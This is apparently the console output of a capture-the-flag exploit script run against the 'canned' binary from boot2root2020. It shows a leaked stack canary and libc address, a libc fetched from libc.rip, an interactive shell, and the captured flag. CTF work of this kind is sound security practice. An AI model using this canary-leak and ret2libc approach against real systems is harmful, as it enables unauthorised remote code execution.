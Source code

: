 # ./exploit.py REMOTE=1
[*] '/pwd/datajerk/boot2root2020/canned/canned'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to 35.238.225.156 on port 1007: Done
[*] canary: 0x6570a4d24c9ee600
[*] Loaded 14 cached gadgets for './canned'
[*] puts: 0x7fa9a78a4aa0
[*] libc_url: https://libc.rip/download/libc6_2.27-3ubuntu1.3_amd64.so
[*] getting: https://libc.rip/download/libc6_2.27-3ubuntu1.3_amd64.so
[*] '/pwd/datajerk/boot2root2020/canned/libc6_2.27-3ubuntu1.3_amd64.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] libc.address: 0x7fa9a7824000
[*] Switching to interactive mode
$ cat flag
b00t2root{d0_U_h4V3_a_C4N_0pen3R?}

